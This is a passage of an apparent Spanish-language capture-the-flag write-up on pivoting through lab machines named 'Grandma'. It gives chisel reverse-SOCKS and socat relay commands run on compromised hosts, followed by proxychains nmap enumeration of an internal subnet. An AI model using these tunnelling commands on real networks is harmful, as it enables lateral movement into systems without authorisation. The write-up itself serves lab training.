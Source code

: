 # Pivoting grandma 2 

Para poder tener conectividad con la interfaz `30.30.30.0/24`, nos conectaremos a nuestro servidor de chisel desde la grandma2. Para ello, tendremos que crear un túnel en la grandma1 que reediriga la conexión a nuestro servidor chisel. 

```python 
// Grandma2 client 
./chisel_1.10.0_linux_amd64 client 20.20.20.2:999 R:8888:socks & disown
```

```python 
// Chisel connection Redirect in Grandma 1 
./socat TCP-LISTEN:999,fork TCP:172.17.0.1:1234 & disown
```

Como vemos, la conexión se realiza exitosamente a nuestro servidor chisel 

![Image 14](/assets/images/grandma/chisel2.png) 

Añadimos el proxy creado a nuestro `/etc/proxychains.conf` y a `foxyproxy`. 

<br> 

## Grandma 3 (30.30.30.0/24 && 40.40.40.0/24) 

<br> 

# Enumeración 

```python 
❯ proxychains nmap --top-ports 500 --open -Pn 30.30.30.3 2>/dev/null
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-13 19:44 CEST
Stats: 0:01:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 96.80% done; ETC: 19:45 (0:00:02 remaining)
Nmap scan report for 30.30.30.3
Host is up (0.14s latency).
Not shown: 498 closed tcp ports (conn-refused)
PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 68.08 seconds
```
